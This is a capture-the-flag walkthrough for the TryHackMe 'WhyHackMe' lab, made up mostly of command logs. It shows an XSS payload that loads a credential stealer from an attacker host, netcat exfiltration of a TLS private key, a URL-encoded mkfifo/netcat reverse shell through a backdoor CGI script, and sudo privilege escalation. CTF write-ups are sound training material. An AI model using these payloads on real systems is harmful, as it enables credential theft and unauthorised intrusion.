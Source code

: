 Link: https://tryhackme.com/room/whyhackme


<h1>Service Enumeration</h1>

<b>┌──(duke㉿kali)-[~/Documents/THM_WhyHackMe]<br>
└─$ nmap -sV -sC -Pn 10.10.134.235</B>
<code>
Starting Nmap 7.92 ( https://nmap.org ) at 2024-01-08 02:28 CST
Nmap scan report for 10.10.134.235
Host is up (0.039s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.30.202
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 47:71:2b:90:7d:89:b8:e9:b4:6a:76:c1:50:49:43:cf (RSA)
|   256 cb:29:97:dc:fd:85:d9:ea:f8:84:98:0b:66:10:5e:6f (ECDSA)
|_  256 12:3f:38:92:a7:ba:7f:da:a7:18:4f:0d:ff:56:c1:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome!!
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.16 seconds</p>
</code>
<b>┌──(duke㉿kali)-[~/Documents/THM_WhyHackMe]<br>
└─$ ftp anonymous@10.10.134.235</b><BR>
<code>
Connected to 10.10.134.235.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||46512|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
226 Directory send OK.
ftp> get update.txt
local: update.txt remote: update.txt
229 Entering Extended Passive Mode (|||46740|)
150 Opening BINARY mode data connection for update.txt (318 bytes).
100% |**********************************************************************************************************************************************************************************************|   318      169.79 KiB/s    00:00 ETA
226 Transfer complete.
318 bytes received in 00:00 (7.83 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||29466|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
226 Directory send OK.
ftp> cd ..
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||59532|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
226 Directory send OK.
ftp> exit
421 Timeout.

<B>┌──(duke㉿kali)-[~/Documents/THM_WhyHackMe]<br>
└─$ cat update.txt  </B>

>Hey I just removed the old user mike because that account was compromised and for any of you who wants the creds of new account visit 127.0.0.1/dir/pass.txt and don't worry this file is only accessible by localhost(127.0.0.1), so nobody else can view it except me or people with access to the common account. 

┌──(duke㉿kali)-[~/Documents/THM_WhyHackMe]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.134.235 -x .php,.ht
>===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.134.235
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,tx
[+] Timeout:                 10s
===============================================================
2024/01/08 03:00:12 Starting gobuster in directory enumeration mode
===============================================================
/blog.php             (Status: 200) [Size: 3102]
/login.php            (Status: 200) [Size: 523] 
/register.php         (Status: 200) [Size: 643] 
/index.php            (Status: 200) [Size: 563] 
/dir                  (Status: 403) [Size: 278] 
/assets               (Status: 301) [Size: 315] [--> http://10.10.134.235/assets/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]                     
/config.php           (Status: 200) [Size: 0]                                     
/server-status        (Status: 403) [Size: 278] 

<h1> Web Service Testing </h1>

Trying found some XSS or LFI on POST request and found that register.php is vuln via parametr username
register new user: <script src="http://10.X.X.X:8000/stealer.js"></script>     // attacker ip
login by user
run python http server with stealer.js
call script by adding comments on blog page

log from http server
10.10.240.147 - - [11/Jan/2024 03:53:19] "GET /stealer4.js?jack:WhyIsMyPasswordSoStrongIDK HTTP/1.1" 200 -

<h2> PrivEscalation lateral moving </h2>

get access via ssh as jack run linpeas and get this

╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                            
Matching Defaults entries for jack on ubuntu:                                                               
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jack may run the following commands on ubuntu:
    (ALL : ALL) /usr/sbin/iptables
--remote-debugging-port
jack@ubuntu:/opt$ ls
capture.pcap  urgent.txt

<h3>Analysing captured packet</h3>
  
you need TLS key for decryption 
jack@ubuntu:/opt$ nc -w 3 10.x.x.x 4444 < ../etc/apache2/certs/apache.key 
import to wireshark Edit > Preferences > Protocols > TLS

GET /cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id HTTP/1.1
Host: 10.0.2.15:41312
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1

HTTP/1.1 200 OK
Date: Wed, 16 Aug 2023 14:35:43 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 64
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html


uid=33(www-data) gid=1003(h4ck3d) groups=1003(h4ck3d)

<h2>Open Backdoor Port</h2>

jack@ubuntu:/opt$ sudo /usr/sbin/iptables -I INPUT -p tcp --dport 41312 -j ACCEPT
jack@ubuntu:/opt$ ss -tlnup | grep "41312"
tcp   LISTEN 0      511               0.0.0.0:41312        0.0.0.0:*        

<h3>Get Reverse Shell </h3>

https://whyhackme.thm:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.x.x.x%204444%20%3E%2Ftmp%2Ff


nc -lvnp 4444

<h2>PrivEsc</h2>

www-data@ubuntu:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
www-data@ubuntu:/usr/lib/cgi-bin$ sudo su
sudo su
/usr/bin/script -qc /bin/bash /dev/null
root@ubuntu:/usr/lib/cgi-bin# id
id
uid=0(root) gid=0(root) groups=0(root)

</code>


